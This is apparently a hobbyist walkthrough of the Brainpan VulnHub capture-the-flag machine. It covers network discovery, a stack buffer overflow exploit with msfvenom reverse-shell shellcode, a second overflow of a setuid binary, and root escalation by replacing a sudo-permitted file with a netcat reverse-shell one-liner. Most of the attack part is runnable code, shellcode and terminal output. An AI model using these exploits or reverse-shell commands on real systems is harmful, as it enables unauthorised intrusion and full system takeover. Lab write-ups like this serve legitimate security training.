

# Brainpan (VulnHub)
- This Lab from Vulnhub , name is Brainpan
- You can get this lab image from Here
- After setup , we need to find this lab ip address
- Finding Ip address you can use your choice tool but i used netdiscover
# Finding IP Address
$ netdiscover -i enp2s0
Currently scanning: 172.18.149.0/16 | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 4 hosts. Total size: 864
_____________________________________________________________________________
IP At MAC Address Count Len MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.100.1 18:3d:5e:a5:e2:94 12 720 HUAWEI TECHNOLOGIES CO.,LTD
192.168.100.25 08:00:27:14:78:ed 1 42 PCS Systemtechnik GmbH
192.168.100.26 08:00:27:2f:b3:09 1 42 PCS Systemtechnik GmbH
# Scanning (Nmap)
$ nmap -sSV -O -A -sC oN brainpan.nmap 192.168.100.26
# Nmap 7.80 scan initiated Mon Sep 7 23:55:37 2020 as: nmap -sSV -O -A -sC -oN brainpan.nmap 192.168.100.26
Nmap scan report for 192.168.100.26
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
9999/tcp open abyss?
| fingerprint-strings:
| NULL:
| _| _|
| _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
| _|_| _| _| _| _| _| _| _| _| _| _| _|
| _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
| [________________________ WELCOME TO BRAINPAN _________________________]
|_ ENTER THE PASSWORD
10000/tcp open http SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
# Web
nmap Result show port 9999 and port 10000(Python Simple Http Server) is running
I type this ip address in browser , I saw this webpage
I used gobuster to find some interesting and useful dir
I found one folder this is /bin , I found one exe file in this folder
- I download this exe file
I used string to see this exe file
I checked port 9999 with nc , In this time I know this brainpan.exe file is running at port 9999
$ nc 192.168.100.26 9999 _| _| _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| _| _| _|_| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _| _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _| _| _| [________________________ WELCOME TO BRAINPAN _________________________] ENTER THE PASSWORD >> AAAAAAAAAAAAAAa ACCESS DENIED- We need to buffer overflow this
# Debugging Stage
I move this exe file to my window machine and open Immunity Debugger and run this exe file
- I send 1000 bytes of A and this program is crashed
- EIP and EBP fill with 41414141 (41 is A)
Next Step We need to know how many bytes need to fill our buffer with in order to get us to eip ??
- I used Metasploit pattern_create tool. Let's Create pattern to start
$ pattern_create -l 1000 | nc 192.168.100.25 9999 $ pattern_offset --query 35724134
[*] Exact match at offset 524
You can use mona to find this offset

$ objdump -d brainpan.exe | grep -i jmp | grep -i esp
311712f3: ff e4 jmp *%esp
#Generating Shell Code
- We need to generatre shell code
- I used this command to generate linux shell code
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.20 LPORT=4444 -b '\x00' -f python [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload [-] No arch selected, selecting arch: x86 from the payload Found 11 compatible encoders Attempting to encode payload with 1 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 95 (iteration=0) x86/shikata_ga_nai chosen with final size 95 Payload size: 95 bytes Final size of python file: 479 bytes buf += b"\xbd\xda\x30\xda\x22\xda\xc7\xd9\x74\x24\xf4\x5a\x2b" buf += b"\xc9\xb1\x12\x83\xc2\x04\x31\x6a\x0e\x03\xb0\x3e\x38" buf += b"\xd7\x75\xe4\x4b\xfb\x26\x59\xe7\x96\xca\xd4\xe6\xd7" buf += b"\xac\x2b\x68\x84\x69\x04\x56\x66\x09\x2d\xd0\x81\x61" buf += b"\x6e\x8a\x16\x65\x06\xc9\xd6\x94\x8a\x44\x37\x26\x54" buf += b"\x07\xe9\x15\x2a\xa4\x80\x78\x81\x2b\xc0\x12\x74\x03" buf += b"\x96\x8a\xe0\x74\x77\x28\x98\x03\x64\xfe\x09\x9d\x8a" buf += b"\x4e\xa6\x50\xcc"
# Exploitation
Let's Write Exploit
- My Exploit Code is here
$ cat exploit.py
#!/usr/bin/python2
import socket, sys, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.100.26', 9999))
buf = b"\xbd\xda\x30\xda\x22\xda\xc7\xd9\x74\x24\xf4\x5a\x2b"
buf += b"\xc9\xb1\x12\x83\xc2\x04\x31\x6a\x0e\x03\xb0\x3e\x38"
buf += b"\xd7\x75\xe4\x4b\xfb\x26\x59\xe7\x96\xca\xd4\xe6\xd7"
buf += b"\xac\x2b\x68\x84\x69\x04\x56\x66\x09\x2d\xd0\x81\x61"
buf += b"\x6e\x8a\x16\x65\x06\xc9\xd6\x94\x8a\x44\x37\x26\x54"
buf += b"\x07\xe9\x15\x2a\xa4\x80\x78\x81\x2b\xc0\x12\x74\x03"
buf += b"\x96\x8a\xe0\x74\x77\x28\x98\x03\x64\xfe\x09\x9d\x8a"
buf += b"\x4e\xa6\x50\xcc"
payload = "A" * 524 + "\xf3\x12\x17\x31" +"\x90" * 10 + buf
s.send(payload)
s.close()
The Logic of the exploit is :
524 Junk + JMP ESP Address + 10 Bytes NOPS + Shellcode On the other tab of my terminal , I used ncat to listen at port 4444 and I run this exploit
$ sudo ncat -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.100.26.
Ncat: Connection from 192.168.100.26:42618.
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
whoami
puck
I got a shell as use puck
After finding a few mins, I found one binary file owner is user anansi
After fuzzing , I know this is buffer overflow vulnerability too.
$ pattern_create -l 200 $ gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /vulnhub/Brainpan/validate Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffcf58 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EBX: 0x41366441 ('Ad6A')
ECX: 0xffffd350 --> 0x48530067 ('g')
EDX: 0xffffd01f --> 0x67 ('g')
ESI: 0xf7f93e1c --> 0x1edd2c
EDI: 0xf7f93e1c --> 0x1edd2c
EBP: 0x64413764 ('d7Ad')
ESP: 0xffffcfd0 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EIP: 0x39644138 ('8Ad9')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x39644138
[------------------------------------stack-------------------------------------]
0000| 0xffffcfd0 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0004| 0xffffcfd4 ("e1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xffffcfd8 ("2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xffffcfdc ("Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0016| 0xffffcfe0 ("e5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xffffcfe4 ("6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0024| 0xffffcfe8 ("Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xffffcfec ("e9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x39644138 in ?? ()
$ pattern_offset -q 39644138
[*] Exact match at offset 116
$ objdump -d validate | grep -i call | grep -i eax
8048468: ff 14 85 14 9f 04 08 call *0x8049f14(,%eax,4)
80484af: ff d0 call *%eax
804862b: ff d0 call *%eax
MAX[116]Bytes Shellcode + CALL EAX ADDRESS I search shellcode at google I found this link 28 bytes Shellcode
- This is 28 bytes /bin/sh shellcode
- Max 116 - 28 (Shellcode) = 88
- Finaly payload like :
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 88) + "\xaf\x84\x04\x08"$ puck@brainpan:/usr/local/bin$ ./validate `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("\x41" * 88) + "\xaf\x84\x04\x08"'` id uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck) whoami anansi /bin/sh -i /bin/sh: 0: can't access tty; job control turned off $ id uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck) $ whoami anansi I got user anansi
# Privileges Escalation
$ sudo -l
Matching Defaults entries for puck on this host:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User puck may run the following commands on this host:
(root) NOPASSWD: /home/anansi/bin/anansi_util
$ whereis nc
nc: /bin/nc /bin/nc.openbsd /usr/share/man/man1/nc.1.gz
$ cd bin
$ ls
anansi_util
$ rm anansi_util
$ ls
$ mv anansi.util anansi.bak
$ ls
anansi.bak
anansi_util
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.20 9001 >/tmp/f " > anansi_util
$ ls
anansi.bak
anansi_util
$ cat anansi_util
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.20 9001 >/tmp/f
In other tab of my terminal , I used ncat to listen and i run this anansi_utils file with sudo
$ sudo ncat -lvnp 9001
[sudo] password for k3nx:
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 192.168.100.26.
Ncat: Connection from 192.168.100.26:50737.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# /bin/bash -i
bash: no job control in this shell
root@brainpan:/home/anansi/bin# cd
cd
root@brainpan:~# ls
ls
b.txt
root@brainpan:~# cat b.txct
cat b.txct
root@brainpan:~# cat b.txt
cat b.txt
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
http://www.techorganic.com
root@brainpan:~#
Finally I got root Shell
Thank for reading , I hope you learn something :"(